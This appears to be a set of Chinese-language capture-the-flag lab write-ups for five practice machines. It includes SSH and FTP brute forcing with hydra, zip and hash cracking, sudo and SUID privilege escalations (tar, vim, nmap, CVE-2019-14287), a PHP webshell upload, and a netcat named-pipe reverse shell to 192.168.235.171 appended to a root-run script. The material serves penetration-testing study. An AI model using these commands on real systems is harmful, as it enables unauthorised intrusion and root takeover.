










## Bounty Hacker

nmap扫描，发现FTP（文件传输协议）的21端口、ssh、http80

显示`Logged in as ftp`，说明ftp服务器开启了匿名登录

**匿名登录	**方便下载公开资料，只需要在用户名输入anonymous或ftp，密码随便就能进去

```
ftp 10.48.145.105
```

直接尝试匿名登录，登录成功

另外说下，ftp登录后一般被限制在管理员指定的ftp根目录下，通常无法逃逸

在ftp服务器中获取文件内容

```
get locks.txt
```

是一个密码字典和用户名lin，尝试扫描ssh连接

### hydra

支持多种协议的爆破工具

```
hydra -l <用户名> -P <密码字典路径> <协议>://<目标IP>
```


```
hydra -l lin -P locks.txt ssh://10.48.145.105 -vV
```



ssh登录，查找SUID发现了`/bin/tar`

尝试利用tar提权

```
/bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"
```

但是执行后rootbash的所有者是lin，遇到了Dash降权

又尝试直接把root文件夹tar打包到/tmp，但是还是无法访问

```
# 打包
/bin/tar -cf /tmp/root_flag.tar /root
# 解压
/bin/tar -xf /tmp/root_flag.tar -C /tmp/
```

查看文件路径

```
tar -tf /tmp/root_flag.tar
```

打印文件内容

```
tar -xOf /tmp/root_flag.tar root/root.txt
```


## Agent Sudo

nmap扫描后，从web入手



from Agent R，可能也是字母，wfuzz爆破

### wfuzz

能够定制针对http的请求

使用`FUZZ`作为占位符

```bash
wfuzz -w /usr/share/wordlists/dirb/common.txt \
      -w /usr/share/wordlists/ua-list.txt \
      -H "User-Agent: FUZZ2" \
      --hh 1234 \	# 过滤指定长度内容
      --hc 404 \	# 隐藏执行的状态码响应 
      http://target.com/FUZZ1
```


```
wfuzz -c -z list,A-B-C-D-E-F-G-H-I-J-K-L-M-N-O-P-Q-S-T-U-V-W-X-Y-Z -H "User-Agent: FUZZ" http://10.49.143.46
```

可以直接curl发包或者burp修改请求头

```
curl -H "User-Agent: C" -L http://10.49.143.46
```

提示有弱密码影响，尝试爆破，先爆破ftp

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.49.143.46
```

读取ftp服务器中的文件，锁定下一个目标是Agent J，而且密码被隐写到图片文件中了

使用 **Exiftool**查看元数据，**binwalk**检测内嵌文件，发现内嵌zip，并且是加密的



```
binwalk -e cutie.png  
```

提取文件，使用fcrackzip爆破zip文件夹密码

```
fcrackzip -v -D -p /usr/share/wordlists/rockyou.txt 8702.zip
```

太慢了，换一个方法，导出哈希后使用john爆破

### John the Ripper

破解压缩包或ssh私钥，以及linux、sql等哈希加密文件

- 将特殊格式的文件提取出哈希指纹

导出哈希到本地，统一格式

```
zip2john 8702.zip > hash.zip
ssh2john kay_rsa > hash.txt
```

- 通过john工具碰撞，暂时只到使用rockyou.txt跑，之后能用--rules等

```
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```


```
zip2john 8702.zip > hash.zip
# 爆破
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
# 查看结果
john --show zip.hash
```

解压缩后查看

```
7z x 8702.zip
```

内容中有一个字符串，看起来像base64，尝试解码，得到`Area51`

使用binwalk没有扫到追加的文件，但是使用steghide直接提取了一个额外的文件



有ssh连接的用户名和密码，进入

把目录下的图片传回kail

```
scp james@10.49.143.46:/home/james/Alien_autospy.jpg /home/zhang/
```

提权（cve-2019-14287）

```
sudo -u \#-1 /bin/bash
```

当传入一个ID为-1的用户时，如果参数等于-1，则对应的用户ID保持不变，但是查询的时候是以root查询的，就会返回root权限。


## Lazyadmin

先使用nmap扫描，发现常规服务。

80端口开放的是apache服务，通过gobuster扫描到/content目录

这个目录是一个CMS系统，继续进行扫描



/as目录是一个登录界面，/anc目录存储了信息，lastest.txt说明了版本

`searchsploit sweetrice`找到这个版本有很多漏洞，尝试下

但是需要先登录，在存储信息里找到用户名为manager，密码为md5，去碰撞解出

之后准备反弹shell脚本

```
cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php5
```

修改下脚本格式，运行后上传，拿到shell



说明home下这个文件是能够在普通用户的权限下执行sudo的

文件不允许普通用户修改，文件内容为

```
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

于是去看/etc/copy.sh，是允许普通用户修改的

在这个文件后追加一行反弹shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.235.171 5555 >/tmp/f
```

监听5555端口，反弹shell后就是root权限


## easyCTF

nmap+gobuster扫描，发现`/simple`目录，而且ftp运行匿名登录

登录上去后无法执行命令



被动模式超时，输入`passive`进入主动模式就可以了

提取文件，尝试hydra爆破ssh

```
hydra -s 2222 -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.49.191.50 -t 4
```



连接后尝试`sudo -l`



vim能够使用sudo执行，执行：

```
sudo /usr/bin/vim -c ':!/bin/sh'
```

能够创建文件的同时执行这个文件的内容

提权，交flag


## MrRobotCTF

这道题是中等难度

nmap扫描，开启常规的端口；

访问网页，给出了类似linux的界面，且给出了可用命令

命令中有join说可以发邮件，但是实际上并不能发

目录扫描，扫到了很多，其中有一个登录页面，其中`robots.txt`中提示：

```
User-agent: *	fsocity.dic		key-1-of-3.txt
```

其中直接访问`key-1-of-3.txt`是flag1

`fsocity.dic`是一个字典密码本

查找发现是一个美剧的背景，主角叫`elliot`，以这个为用户名开扫

扫到一个：`ER28-0652`，作为密码登录上了



在media-add new里尝试传入php木马，失败，后缀都被过滤；

在plugin页面上传，上传zip，结果也失败

Appearance页面提供了修改php页面的功能，尝试修改一个不重要的php

最后修改了404.php，之后触发404就能反弹shell

在home文件夹里，有第二个flag，但是需要root

另一个文件：`robot:c3fcd3d76192e4007dfb496cca67e13b`

crash hash后：`abcdefghijklmnopqrstuvwxyz`

whoami结果是：`daemon`，是一个低权限服务用户

home文件夹里有：robot和ubuntu两个用户，那这个文件夹的内容应该就是robot的用户名密码

先升级为TTY终端

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

之后切换用户

```
su robot
```

拿到第二个flag后，尝试sudo -l失败，尝试suid

```
find / -user root -perm -4000 -print 2>/dev/null
```

看到`/usr/local/bin/nmap`

在 Nmap 2.02 到 5.21 之间的老版本中，内置了交互模式

```
# 查看nmap版本
/usr/local/bin/nmap --version

# 进入交互模式
/usr/local/bin/nmap --interactive

# 提权
！sh
```


